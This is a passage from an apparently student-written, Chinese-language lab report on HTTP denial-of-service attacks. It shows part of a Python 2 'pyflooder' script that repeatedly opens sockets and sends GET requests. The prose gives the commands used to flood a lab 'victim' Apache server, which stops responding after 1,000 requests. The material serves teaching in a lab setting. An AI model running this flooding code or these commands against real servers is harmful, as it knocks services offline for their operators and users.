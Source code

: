   		 	 	try:
    	   			 # Open the connection on that raw socket
     	   			dos.connect((ip, port))
			
  	      			# Send the request according to HTTP spec
    	   			 dos.send("GET /rand.php HTTP/1.1\r\nHost: 169.254.227.182\r\nUser-Agent: curl/7.61.0\r\nAccept: */*\r\n\r\n")   
    	   			 
   				except socket.error, e:
 	       			print "\n [ No connection, server may be down ]: " + str(e)
 	       			
  			  	finally:
  	     			 # Close our socket gracefully
        			dos.shutdown(socket.SHUT_RDWR)
        			dos.close()
			```
		

			
			运行 `python pyflooder.py 169.254.227.183 80  10`语句对victim进行攻击(首先对victi发送10个http请求），发送的攻击包如下:
			![19](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/raw/master/img/19.PNG)
			
			在`victim`中查看`apache access.log `可发现`攻击`的数据包`请求成功`，见下图：
			![img21](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/raw/Dos/img/21.PNG)

			运行 `python pyflooder.py 169.254.227.183 80  1000`	对`victim`发送`1000次`http [rand.php](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/blob/master/source_code/pyflooder.py)页面请求攻击,发现victim卡死，victim中的apache服务对其他的页面请求`无响应`，拒绝服务攻击完成。